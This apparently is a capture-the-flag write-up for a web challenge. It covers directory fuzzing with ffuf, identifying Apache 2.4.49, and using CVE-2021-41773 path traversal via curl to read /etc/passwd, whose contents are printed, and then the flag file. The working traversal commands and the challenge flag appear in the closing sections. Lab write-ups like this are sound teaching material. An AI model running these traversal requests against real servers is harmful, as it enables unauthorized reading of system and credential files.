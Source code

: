 # Web End-to-End Attack Walker

Accessing the base URL returned a default Apache page:

```html
<html><body><h1>It works!</h1></body></html>
```

No visible routes or links in the HTML source.

Directory Fuzzing with ffuf: We ran enumeration using SecLists/Discovery/Web-Content/common.txt:

```bash
ffuf -u http://ctf-18.security.cs.pub.ro:8081/FUZZ -w ~/SecLists/Discovery/Web-Content/common.txt -fs 20 -t 40
```

**Results:**

```
yaml
Copy
Edit
.htaccess    [Status: 403, Size: 199]
.htpasswd    [Status: 403, Size: 199]
.hta         [Status: 403, Size: 199]
index.html   [Status: 200, Size: 45]
```

- .ht* files were forbidden.
- /index.html showed the default Apache "It works!" page.

No admin panels, APIs, or other content were found.

Using HTTP headers:

```bash
curl -I http://ctf-18.security.cs.pub.ro:8081/
```

Revealed the server was running: **Apache/2.4.49 (Unix)**. This version is vulnerable to:

- Path Traversal: CVE-2021-41773
- Potential RCE (if mod_cgi is enabled)

Tested file disclosure via path traversal: `curl --path-as-is "http://ctf-18.security.cs.pub.ro:8081/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"`. Successfully dumped ***/etc/passwd*** content:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

We then tested common CTF flag locations and found it at: 

```
curl --path-as-is "http://ctf-18.security.cs.pub.ro:8081/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/ctf/flag.txt"
```

Flag: **SSS{p4th_tr4v3rs4l_3v3rywh3r3}**
